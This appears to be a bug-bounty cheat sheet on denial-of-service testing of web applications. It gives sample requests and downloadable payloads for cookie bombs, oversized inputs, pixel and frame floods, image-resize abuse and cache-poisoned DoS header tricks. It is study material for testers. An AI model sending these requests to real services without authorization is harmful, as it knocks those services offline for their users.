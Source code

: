 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Denial%20Of%20Service.md#introduction)

Denial of Service is a type of attack on a service that disrupts its normal function and prevents other users from accessing it

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Denial%20Of%20Service.md#where-to-find)

This vulnerability can appear in all features of the application. Depending on how to exploit it, for example in the file upload feature, you can upload very large files

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Denial%20Of%20Service.md#how-to-exploit)

1. Cookie bomb

```
https://target.com/index.php?param1=xxxxxxxxxxxxxx
```

After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

2. Try input a very long payload to form. For example using very long password or using very long email

```
POST /register HTTP/1.1
Host: target.com
...

username=victim&password=aaaaaaaaaaaaaaa
```

3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://daffa.tech/lottapixel3.jpg)

4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

5. Sometimes in website we found a parameter that can adjust the size of the image, for example

```
https://target.com/img/vulnerable.jpg?width=500&height=500
```

Try change "500" to "99999999999"

```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

6. Try changing the value of the header with something new, for example:

```
Accept-Encoding: gzip, gzip, deflate, br, br
```

7. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests
    
8. ReDoS (Regex DoS) occurs due to poorly implemented RegEx
    
9. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
    

- HTTP Header Oversize (HHO)
    
    A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
    
    ```
    GET /index.html HTTP/1.1
    Host: victim.com
    X-Oversized-Header-1: Big_Value
    ...
    
    ```
    

The response is

```
HTTP/1.1 400 Bad Request
...

Header size exceeded
```

HTTP Meta Character (HMC)

this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

```
GET /index.html HTTP /1.1
Host: victim.com
X-Meta-Malicious-Header: \r\n
...
```

The response is

```
HTTP/1.1 400 Bad Request
...

Character not allowed
```

HTTP Method Override (HMO)

There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:

```
1. X-HTTP-Method-Override
2. X-HTTP-Method
3. X-Method-Override
```

The header instructs the application to override the HTTP method in request.

```
GET /index.php HTTP/1.1
Host: victim.com
X-HTTP-Method-Override: POST
...
```

The response is

```
HTTP/1.1 404 Not Found
...

POST on /index.php not found
```

X-Forwarded-Port

```
GET /index.php?dontpoisoneveryone=1 HTTP/1.1
Host: www.hackerone.com
X-Forwarded-Port: 123
...
```

X-Forwarded-Host

```
GET /index.php?dontpoisoneveryone=1 HTTP/1.1
Host: www.hackerone.com
X-Forwarded-Host: www.hackerone.com:123
...
```

[![Response DoS](https://camo.githubusercontent.com/826ac44dcdcb89763ce05a2de0bfb9517eb924c31ef26fa16d05df56f95050d2/68747470733a2f2f706f7274737769676765722e6e65742f636d732f696d616765732f36662f38332f3435613161396638343162392d61727469636c652d73637265656e5f73686f745f323031382d30392d31335f61745f31312e30382e31322e706e67)](https://camo.githubusercontent.com/826ac44dcdcb89763ce05a2de0bfb9517eb924c31ef26fa16d05df56f95050d2/68747470733a2f2f706f7274737769676765722e6e65742f636d732f696d616765732f36662f38332f3435613161396638343162392d61727469636c652d73637265656e5f73686f745f323031382d30392d31335f61745f31312e30382e31322e706e67)

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Denial%20Of%20Service.md#references)

- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)


